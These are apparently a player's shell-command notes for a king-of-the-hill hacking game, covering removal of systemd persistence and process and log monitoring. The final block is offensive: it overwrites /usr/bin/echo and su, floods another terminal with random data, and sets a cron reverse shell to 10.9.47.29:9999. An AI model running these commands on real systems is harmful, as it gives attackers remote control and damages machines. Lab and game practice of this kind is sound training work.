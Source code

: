 #################################################################
## Stoping Systemd PErsist
```bash
rm /etc/systemd/system/persistence.service && systemctl disable persistence.service && systemctl stop persistence
```

#################################################################
### Monitor a process and Log files

```bash
watch 'ps auxf | grep -E "sh|pts|tty|py|php|10\." | grep -vE "ps aux|grep|httpd|php-fpm|containerd|apt.systemd|sshd -D|apache2ctl -D|networkd-dispatcher|agetty |unattended-upgrade-shutdown|supervisord|startup.sh";' 
watch 'curl -m 5 -sL $VMIP:9999 | figlet'
lsof -i -P -n
lsattr
ps -eaf --forest
ps auxf
watch -n 1 "ps aux | grep suspicious_user"
tail -f /var/log/auth.log
tail -n 20 /var/log/syslog

# Follow all logs in real-time
sudo mkdir -p /var/log/journal
sudo systemctl restart systemd-journald

sudo journalctl -f

# Follow logs for SSH activity
sudo journalctl -u ssh -f

# Filter logs by priority (e.g., warnings or errors)
sudo journalctl -p warning -f
watch -n 1 "sudo journalctl -u cron --since '1 minute ago'"




```

#################################################################
```bash
cd //

# MOUNTing king file
echo CyberxploitHausa > /dev/shm/.../king.txt
mount --bind -r -o rw /dev/shm/.../king.txt /root/king.txt

mv /usr/bin/echo > echo.bak
mv /usr/bin/su > su.bak
echo 'CyberxploitHausa owned echo/mount now' > /usr/bin/echo
echo 'CyberxploitHausa owned su' > /usr/bin/su
find / |grep pty.py
nano /etc/services


tcpdump -i eth0 -c50 -nn > cap2.pcap 
cat /dev/urandom > /dev/pts/5 &

## Crontab
#!/bin/bash
echo "CyberxploitHausa" > /root/king.txt
sh -i >& /dev/tcp/10.9.47.29/9999 0>&1
```